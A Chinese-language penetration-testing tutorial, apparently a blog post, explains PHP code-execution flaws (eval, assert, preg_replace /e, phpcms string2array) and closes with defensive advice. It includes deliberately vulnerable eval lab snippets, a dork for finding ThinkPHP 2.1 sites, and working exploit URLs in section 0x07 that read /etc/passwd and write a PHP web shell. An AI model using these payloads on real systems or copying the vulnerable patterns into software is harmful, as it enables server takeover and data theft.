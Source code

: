 +++
date = "2016-07-25T22:32:51+08:00"
description = ""
draft = false
tags = ["代码执行"]
title = "代码执行漏洞"
topics = ["Pentest", "PHP"]

+++

### 0x00 代码执行
> ```
当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，
没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。
```

### 0x01 相关函数
> ```
PHP：eval assert
Python：exec
asp：<%=CreateObject(“wscript.shell”).exec(“cmd.exe /c ipconfig”).StdOut.ReadAll()%>
Java：没有类似函数，但采用的反射机制和各种基于反射机制的表达式引擎(OGNL、SpEL、MVEL等)有类似功能
```

### 0x02 phpcms中的string2array函数
> 这个函数可以将phpcms的数据库settings的字符串形式的数组内容转换为真实的数组
```
array(  //这个是字符串形式的数组，它并不是数组，而是字符串
    'upload_maxsize' => '2048',
    'upload_allowext' => 'jpg|jpeg|gif|bmp|png|doc|docx|xls|xlsx|ppt|pptx|pdf|txt|rar|zip|swf', 
    'watermark_enable' => '1',
    'watermark_minwidth' => '300',
    'watermark_minheight' => '300',
    'watermark_img' => '/statics/img/water/mark.png',
    'watermark_pct' => '85',
    'watermark_quality' => '80',
    'watermark_pos' => '9',
)
```
```php
function string2array($data) {
    //这个函数可以将字符串$data转化为数组
    if($data == '') 
        return array(); 
    @eval("\$array = $data;"); 
        return $array;
}
```

### 0x03 漏洞危害
> ```
执行代码
让网站写shell
甚至控制服务器
```

### 0x04 漏洞分类(也是利用点)
> ```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

### 0x05 漏洞挖掘
> ```
框架找漏洞，如ThinkPHP：
  inurl:index.php intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
框架的URL格式如下：
  Site:Port/Module name/Method name/Property name/Preperty value
  Site:Port/index.php?m=Module_name&f=Method_name&v=Preperty_value
  
  www.xx.com:88/News/show/id/328
  www.yy.com:99/index.php?m=News&f=detail&item=23
  www.zz.com/global_cms_contentview_id_2435
```

### 0x06 搭建环境实验
* 示例一

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = $data;");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval1.png" alt="代码执行漏洞使用eval函数1.png" %}}

* 示例二

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower('$data');");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval2.png" alt="代码执行漏洞使用eval函数2.png" %}}

* 示例三

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval3.png" alt="代码执行漏洞使用eval函数3.png" %}}
<br /><br />
{{% fluid_img src="/img/post/code_execution_eval4.png" alt="代码执行漏洞使用eval函数4.png" %}}

* 示例四

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval5.png" alt="代码执行漏洞使用eval函数5.png" %}}
<br /><br />
{{% fluid_img src="/img/post/code_execution_eval6.png" alt="代码执行漏洞使用eval函数6.png" %}}

* 示例五

> mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])  
/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)

> ```php
<?php
    $data = $GET_['data'];
    // echo $data;
    preg_replace('/<data>(.*)<\/data>/e','$ret = "\\1"',$data);
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_preg_replace.png" alt="代码执行漏洞使用preg_replace函数.png" %}}

### 0x07 具体操作
> ```
# 一般找CMS相应版本漏洞，如ThinkPHP2.1
* 一句话
    http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}
* 得到当前路径
    http://www.xxx.com/News/detail/id/{${print(getcwd()))}}
* 读文件
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}
    POST的数据为：f=/etc/passwd
* 写shell
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}
    POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
```

### 0x08 漏洞防御
* 使用json保存数组，当读取时就不需要使用eval了
* 对于必须使用eval的地方，一定严格处理用户数据
* 字符串使用单引号包括可控代码，插入前使用addslashes转义
* 放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
* 若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象

<br />
下一篇：http://wyb0.com/post/代码执行漏洞2/